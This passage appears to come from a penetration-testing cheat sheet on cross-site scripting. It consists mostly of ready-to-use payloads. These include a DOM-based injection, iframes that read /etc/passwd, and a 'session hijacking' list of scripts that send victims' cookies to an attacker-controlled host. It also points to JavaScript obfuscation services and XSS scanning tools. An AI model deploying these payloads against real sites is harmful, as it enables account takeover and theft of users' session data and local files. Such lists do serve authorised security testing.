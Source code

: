 #### Dom Based
```
<script>var ok = location.search.replace("?ok=", "");domE1.innerHTML = "<a href=\'"+ok+"\'>ok</a>";</script>
```
  
->  
```
javascript:alert(1)
```

### JavaScript Encoding
-> jjencode  
https://utf-8.jp/public/jjencode.html   
-> aaencode  
https://utf-8.jp/public/aaencode.html  
-> jsfuck  
http://www.jsfuck.com/  
-> Xchars.js  
https://syllab.fr/projets/experiments/xcharsjs/5chars.pipeline.html  

### Decoder - Obfuscation (Javascript Decoder and PHP)
https://malwaredecoder.com/  

### XSS to LFI
```
<img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
```
	
### XSS - Session Hijacking
-> Examples
```
<script>new Image().src="http://<IP>/ok.jpg?output="+document.cookie;</script>
<script type="text/javascript">document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>window.location="http://<IP>/?cookie="+document.cookie;</script>
<script>document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>fetch('http://<IP>/?cookie=' + btoa(document.cookie));</script>  
```

### Tools
-> dalfox  
```
dalfox url http://example.com
```
https://github.com/hahwul/dalfox

-> gxss  
```
echo "https://target.com/some.php?first=hello&last=world" | Gxss -c 100
```
https://github.com/KathanP19/Gxss
